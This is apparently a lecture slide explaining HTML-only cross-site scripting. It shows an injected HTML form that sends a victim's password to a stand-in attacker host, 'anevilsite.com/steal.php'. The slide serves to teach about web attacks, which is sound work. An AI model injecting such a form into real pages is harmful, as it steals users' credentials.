

# XSS using HTML only
It’s possible to simply inject a HTML form, for example

Consider for example an attacker entering the following:

	<form action=http://www.anevilsite.com/steal.php>Enter your password
<input type="password" name="pass">
<input type="submit" value="Submit">
</form>

This will provide a text box to collect the password of a (perhaps naïve) user